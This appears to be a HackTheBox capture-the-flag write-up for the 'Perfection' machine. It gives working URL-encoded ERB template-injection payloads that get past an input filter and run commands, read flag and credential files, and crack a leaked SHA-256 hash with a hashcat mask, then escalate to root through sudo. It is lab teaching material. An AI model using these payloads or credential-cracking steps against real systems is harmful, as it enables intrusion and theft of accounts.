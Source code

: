 # Perfection Walkthrough
<br/>

## Intro
Welcome to the Perfection challenge Walkthrough from HackTheBox, here is the link to the [room](https://app.hackthebox.com/machines/Perfection)
In this room we are gonna practice with web applications and injection to gain access to the machine an red the user and root's flags.

To interact with the machine connect via OpenVPN using the "lab" config profile.

Whenever you feel ready press "Join the Machine"

<br/>
<br/>

## The Challenge
Let's begin with a port scan using *nmap*:
```bash
nmap -sV MACHINE_IP
```
Here is the scan report:
```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx
```

I have decided as usual to do a directory scan but nothing useful appeared.
Navigating the website there is one page where we can insert values and calculate our weighted grade, whenever there is a webform that accepts user input is always good to test if we can inject some code.

Looking around we can also notice that at the bottom of the pages there is written Webrick 1.7.0, which is a ruby library used for webservers.

My first try was with the simple Javascript alert  box and after submitting it, i got the message "Malicious input blocked", this means that there is some kind of filtering active and we need to bypass it.

So i decided to jump into Burpsuite and use it's proxy to capture the HTTP request of the webform, here i discovered that the payload need to be URL encoded, more specifically the key-characters.

After a bit of testing this URL encoded payload worked, showing the result of the multiplication ($2*2$), this means that those parameters are effectively being executed by the server.
```
hello%0A'<%25%3D+2*2+%25>'&grade1=0&weight1=100&category2=a&grade2=0&weight2=0&category3=b&grade3=0&weight3=0&category4=c&grade4=0&weight4=0&category5=d&grade5=0&weight5=0
```

Now we have to try to substitute that multiplication with something like `whoami` to test if we can actually execute commands:
```
hello%0A'<%25%3D+`whoami`+%25>'&grade1=0&weight1=100&category2=a&grade2=0&weight2=0&category3=b&grade3=0&weight3=0&category4=c&grade4=0&weight4=0&category5=d&grade5=0&weight5=0
```
Successfully seeing that we are "susan"
**Note** the backticks wrapping the command, as with normal or double ticks it won't work.

Now we can use this method to read the user flag:
```
category1=hello%0A'<%25%3D+`cat+/home/susan/user.txt`+%25>'
&grade1=0&weight1=100&category2=a&grade2=0&weight2=0&category3=b&grade3=0&weight3=0&category4=c&grade4=0&weight4=0&category5=d&grade5=0&weight5=0
```
--> REDACTED
<br/>

Looking around in susan's home directory i have noticed that there is a folder owned and created by root called Migration, following this path i ended up to a file: `/home/susan/Migration/pupilpath_credentials.db` 
Let's view it:
```
category1=hello%0A'<%25%3D+`cat+/home/susan/Migration/pupilpath_credentials.db`+%25>'
&grade1=0&weight1=100&category2=a&grade2=0&weight2=0&category3=b&grade3=0&weight3=0&category4=c&grade4=0&weight4=0&category5=d&grade5=0&weight5=0
```

This is the content of the file:
```
SQLite format tableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
)
Stephen Locke 154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrencef f7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tyler d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithd d560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Miller abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

Let's find out the hash type using the tool *name-that-hash*:
```bash
nth --text "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f"
```

The type is SHA-256 which translates to mode 1400 if you are using *Hashcat*.
Save the hash into a file:
```bash
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash.txt
```

I have tried to run *Hashcat* on it but it was not able to give me the password, so hi have decided to look around for some more clues.

In /var/mail there is a message for Susan
```bash
cat /var/mail/susan
```

```
'Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students
in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
Note that all letters of the first name should be convered into lowercase.
Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

In our scenario this translate to the password being susan_nasus_THE-RANDOM-NUMBER, then all is hashed

Now we can use again Hashcat:
```bash
hashcat -a 3 -m 1400 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d" --show
```
the `?d` are used to tell the tool that those are the entries to brute force using numbers(0-9), while `-a 3` is setting to use the brute-force mask attack mode.
And you should get: susan_nasus_413759210

Since with *nmap* we found port 22 open and now we have Susan's credentials we can ssh as her:
```
ssh susan@IP
```

<br/>

### Privilege Escalation
Now we need to escalate our privileges to root to read the last flag.

let's check what we can run as sudo
```bash
sudo -l
```
```
User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Well looks like we do not really need to do some magic escalation, we can just change user and read the flag
```bash
sudo su root
```

Now we are root!

Get the flag:
```bash
cat /root/root.txt
```

<br/>

Congratulations, you have completed this Perfection challenge, i had a lot of fun doing it hope you did as well. <br>
If you wanna see more write ups you can check the WriteUps Directory in this GitHub repo. <br>

Catch you in the next CTF 😃 <br>
